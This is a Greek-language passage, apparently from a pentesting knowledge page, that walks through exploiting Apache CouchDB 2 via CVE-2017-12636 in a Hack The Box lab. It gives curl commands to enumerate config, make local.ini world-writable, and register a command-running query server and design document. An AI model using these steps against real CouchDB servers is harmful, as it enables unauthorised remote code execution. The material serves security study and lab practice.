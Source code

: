 Για περισσότερες λεπτομέρειες σχετικά με το CVE-2018-8007, ανατρέξτε στην ανακοίνωση της mdsec: [CVE-2018-8007](https://www.mdsec.co.uk/2018/08/advisory-cve-2018-8007-apache-couchdb-remote-code-execution/).

### **Εξερεύνηση του CVE-2017-12636 με Δικαιώματα Εγγραφής στο local.ini**

Παράδειγμα [από εδώ](https://0xdf.gitlab.io/2018/09/15/htb-canape.html).

Μια ευπάθεια γνωστή ως CVE-2017-12636 εξερευνήθηκε, η οποία επιτρέπει την εκτέλεση κώδικα μέσω της διαδικασίας CouchDB, αν και συγκεκριμένες ρυθμίσεις μπορεί να αποτρέψουν την εκμετάλλευσή της. Παρά τις πολλές αναφορές Proof of Concept (POC) που είναι διαθέσιμες online, απαιτούνται προσαρμογές για να εκμεταλλευτείτε την ευπάθεια στην έκδοση CouchDB 2, που διαφέρει από την κοινώς στοχοποιημένη έκδοση 1.x. Τα αρχικά βήματα περιλαμβάνουν την επαλήθευση της έκδοσης CouchDB και την επιβεβαίωση της απουσίας της αναμενόμενης διαδρομής των query servers:
```bash
curl http://localhost:5984
curl http://0xdf:df@localhost:5984/_config/query_servers/
```
Για να υποστηριχθεί η έκδοση 2.0 του CouchDB, χρησιμοποιείται μια νέα διαδρομή:
```bash
curl 'http://0xdf:df@localhost:5984/_membership'
curl http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers
```
Οι προσπάθειες προσθήκης και εκτέλεσης ενός νέου διακομιστή ερωτήσεων συνάντησαν σφάλματα που σχετίζονται με άδειες, όπως υποδεικνύεται από την παρακάτω έξοδο:
```bash
curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
```
Περαιτέρω έρευνα αποκάλυψε προβλήματα δικαιωμάτων με το `local.ini` αρχείο, το οποίο δεν ήταν εγγράψιμο. Με την τροποποίηση των δικαιωμάτων του αρχείου με πρόσβαση root ή homer, κατέστη δυνατό να προχωρήσουμε:
```bash
cp /home/homer/etc/local.ini /home/homer/etc/local.ini.b
chmod 666 /home/homer/etc/local.ini
```
Οι επόμενες προσπάθειες προσθήκης του query server ήταν επιτυχείς, όπως αποδεικνύεται από την απουσία μηνυμάτων σφάλματος στην απάντηση. Η επιτυχής τροποποίηση του αρχείου `local.ini` επιβεβαιώθηκε μέσω σύγκρισης αρχείων:
```bash
curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
```
Η διαδικασία συνεχίστηκε με τη δημιουργία μιας βάσης δεδομένων και ενός εγγράφου, ακολουθούμενη από μια προσπάθεια εκτέλεσης κώδικα μέσω μιας προσαρμοσμένης προβολής που χαρτογραφείται στον νεοαφιχθέντα διακομιστή ερωτημάτων:
```bash
curl -X PUT 'http://0xdf:df@localhost:5984/df'
curl -X PUT 'http://0xdf:df@localhost:5984/df/zero' -d '{"_id": "HTP"}'
curl -X PUT 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"anything": {"map": ""} }, "language": "cmd"}'
```
A **[σύνοψη](https://github.com/carlospolop/hacktricks/pull/116/commits/e505cc2b557610ef5cce09df6a14b10caf8f75a0)** με μια εναλλακτική payload παρέχει περαιτέρω πληροφορίες σχετικά με την εκμετάλλευση του CVE-2017-12636 υπό συγκεκριμένες συνθήκες. **Χρήσιμοι πόροι** για την εκμετάλλευση αυτής της ευπάθειας περιλαμβάνουν:
